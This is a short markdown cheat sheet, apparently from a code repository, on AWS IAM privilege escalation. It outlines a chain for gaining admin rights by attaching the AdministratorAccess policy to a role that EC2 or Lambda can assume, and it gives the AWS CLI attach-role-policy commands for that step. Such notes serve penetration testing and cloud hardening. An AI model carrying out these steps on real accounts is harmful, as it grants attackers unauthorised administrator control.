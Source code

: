 # IAM

## 1. permission escalation
Attach Policy `AdministratorAccess` -> Attach to Role ( with trust relation ship to `EC2` or `Lambda` ) -> Create `EC2` or `Lambda` -> Attach `AdministratorAccess` to user

Attach policy to role:
```
iam attach-role-policy --role-name <value> --policy-arn <value>
```
```
iam attach-role-policy --role-name administrator --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
